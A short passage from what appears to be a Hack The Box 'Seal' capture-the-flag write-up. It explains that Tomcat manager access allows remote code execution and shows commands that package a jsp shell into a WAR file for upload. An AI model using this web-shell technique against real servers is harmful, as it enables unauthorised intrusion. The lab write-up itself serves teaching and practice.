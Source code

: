 ![Screenshot_tomcat_manager.png](/assets/images/posts/htb-seal/Screenshot_tomcat_manager.png)

With manager access to tomcat, getting RCE should be easy as we can upload any war we want. The simple jsp shell from hacktricks works great:
https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

```text
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
```
